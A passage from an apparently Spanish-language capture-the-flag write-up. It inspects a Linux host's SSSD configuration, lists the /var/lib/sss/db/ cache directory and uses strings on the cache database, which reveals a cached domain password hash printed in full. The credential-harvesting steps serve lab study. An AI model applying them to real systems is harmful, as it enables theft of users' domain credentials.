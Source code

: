 ```js
cat /etc/sssd/sssd.conf

[sssd]
domains = cerberus.local
config_file_version = 2
services = nss, pam

[domain/cerberus.local]
default_shell = /bin/bash
ad_server = cerberus.local
krb5_store_password_if_offline = True
cache_credentials = True
krb5_realm = CERBERUS.LOCAL
realmd_tags = manages-system joined-with-adcli 
id_provider = ad
fallback_homedir = /home/%u@%d
ad_domain = cerberus.local
use_fully_qualified_names = True
ldap_id_mapping = True
access_provider = ad
```

- Podemos notar que "krb5_store_password_if_offline" está en "true", lo que significa que las contraseñas de kerberos se almacenan de forma local (offline) en el sistema, sabiendo  que en sistemas Linux, las contraseñas y los tickets de Kerberos en caché generados por SSSD suelen almacenarse en el directorio "/var/lib/sss/db/", nos dirigimos a ese directorio y listamos los archivos:

```js
$cd /var/lib/sss/db/
$ls -la

ls -la
total 5036
drwx------  2 root root    4096 Mar  2 12:33 .
drwxr-xr-x 10 root root    4096 Jan 22  2023 ..
-rw-r--r--  1 root root 1286144 Jul 26 04:24 cache_cerberus.local.ldb
-rw-------  1 root root    2715 Mar  2 12:33 ccache_CERBERUS.LOCAL
-rw-------  1 root root 1286144 Jul 26 07:53 config.ldb
-rw-------  1 root root 1286144 Jan 22  2023 sssd.ldb
-rw-r--r--  1 root root 1286144 Mar  1 12:07 timestamps_cerberus.local.ldb
```

- Leemos con cat el contenido de "cache_cerberus.local.ldb" pero nos arroja demasiada información desordenada, si usamos "strings" podemos visualizar de mejor forma y encontramos un hash:

```js
$strings cache_cerberus.local.ldb 

(...snip...)
dataExpireTimestamp
initgrExpireTimestamp
cachedPassword
$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU
(...snip...)
```
